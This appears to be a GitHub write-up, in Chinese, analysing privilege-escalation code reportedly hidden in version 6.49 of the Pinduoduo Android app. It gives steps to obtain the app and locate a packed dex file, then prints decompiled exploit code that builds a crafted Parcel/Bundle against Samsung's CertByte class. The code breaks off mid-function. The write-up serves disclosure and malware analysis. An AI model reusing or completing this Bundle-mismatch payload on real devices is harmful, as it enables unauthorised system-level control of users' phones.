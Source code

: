 # 拼多多apk内嵌提权代码，及动态下发dex分析

参考「 深蓝洞察 」的文章：https://mp.weixin.qq.com/s/P_EYQxOEupqdU0BJMRqWsw
（Bundle 风水 - Android Parcel 序列化与反序列化不匹配系列漏洞，实现 0day/Nday 攻击，从而绕过系统校验，获取系统级 StartAnyWhere 能力）


复现流程如下：  
下载3月5日前更新的（6.50版本前）的拼多多apk，如6.49版本：  
https://com-xunmeng-pinduoduo.en.uptodown.com/android/download/91472728  

解压apk文件，找到拼多多apk中，提权代码所在的文件位置：  
pinduoduo-6-49-0.zip\assets\component\com.xunmeng.pinduoduo.AliveBaseAbility.7z\com.xunmeng.pinduoduo.AliveBaseAbility\vmp_src\mw1.bin

以上是一个加VMP壳的dex文件，脱壳还原出代码，可以找到针对不同手机厂商系统的多个用于提权的漏洞利用代码，胆子相当的大，比如利用三星手机“com.samsung.android.cepproxyks.CertByte”的提权漏洞，代码如下：


 ```
// assets/component/com.xunmeng.pinduoduo.AliveBaseAbilitiy
// [Manwei]
// com/xunmeng/pinduoduo/android_pull_ablity_comp/pullstartup/SamsungAlivePullStartup 

Public static Bundle makeBundleForSamsungSinceP(Intent intent){
	Bundle bundle = new Bundle();
	Parcel obtain = Parcel.obtain();
	Parcel obtain2 = Parcel.obtain();
	Parcel obtain3 = Parcel.obtain();
	obtain2.writeInt(3);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(3);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(4);
	obtain2.writeString("com.samsung.android.cepproxyks.CertByte");
	obtain2.writeInt(0);
	byte b[] = new byte[0];
	obtain2.writeByteArray(b);
	obtain2.writeInt(0);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(53);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(1);
	obtain2.writeInt(1);
	obtain2.writeInt(13);
	obtain2.writeInt(72);
	obtain2.writeInt(48);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(0);
	obtain2.writeInt(13);
	obtain2.writeInt(-1);
	int dataPosition = obtain2.dataPosition();
	obtain2.writeString("intent");
 ```